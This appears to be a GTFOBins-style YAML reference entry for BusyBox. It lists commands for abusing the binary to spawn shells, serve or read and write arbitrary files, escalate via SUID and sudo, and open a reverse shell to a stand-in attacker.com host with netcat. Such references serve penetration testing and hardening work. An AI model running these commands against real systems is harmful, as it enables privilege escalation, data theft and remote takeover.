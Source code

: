```yaml
---
description: BusyBox may contain many UNIX utilities, run `busybox --list-full` to check what GTFOBins binaries are supported. Here some example.
functions:
  shell:
    - code: busybox sh
  file-upload:
    - description: Serve files in the local folder running an HTTP server.
      code: |
        LPORT=12345
        busybox httpd -f -p $LPORT -h .
  file-write:
    - code: |
        LFILE=file_to_write
        busybox sh -c 'echo "DATA" > $LFILE'
  file-read:
    - code: |
        LFILE=file_to_read
        ./busybox cat "$LFILE"
  suid:
    - description: It may drop the SUID privileges depending on the compilation flags and the runtime configuration.
      code: "./busybox sh"
  sudo:
    - code: sudo busybox sh
  reverse-shell:
    - description: Run `nc -lvp 12345` on the attacker box to receive the shell. 
      code: |
        RHOST=attacker.com
        RPORT=12345
        busybox nc -e /bin/sh $RHOST $RPORT
---
```


